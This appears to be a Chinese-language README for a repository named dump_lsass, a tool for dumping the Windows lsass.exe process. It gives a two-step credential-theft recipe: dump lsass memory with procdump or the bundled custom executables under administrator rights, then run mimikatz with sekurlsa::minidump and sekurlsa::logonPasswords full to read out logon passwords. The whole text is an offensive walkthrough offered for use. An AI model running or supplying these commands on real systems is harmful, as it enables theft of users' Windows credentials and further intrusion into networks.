 # dump_lsass
一个dumpWindows系统lsass.exe进程的工具

dump_lsass_for_Win7_x64.c和dump_lsass_for_Win10_x64.c是国外一位大佬写的lsass.exe进程dump工具，参考链接：https://osandamalith.com/2019/05/11/shellcode-to-dump-the-lsass-process/

procdump.exe是一个微软官方的进程转储工具，主要用于抓取崩溃进程的内存数据，下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

第1步：转储lsass.exe进程

使用prodump.exe转储（需要管理员权限）

procdump.exe -accepteula -ma lsass.exe lsass_dump

或者使用dump_lsass_for_Win*_x64.exe转储（需要管理员权限）

dump_lsass_for_Win7_x64.exe

dump_lsass_for_Win10_x64.exe

第2步：利用mimikatz读取密码，lsass_dump.dmp为保存dump数据的文件

mimikatz.exe "sekurlsa::minidump lsass_dump.dmp" "sekurlsa::logonPasswords full" exit

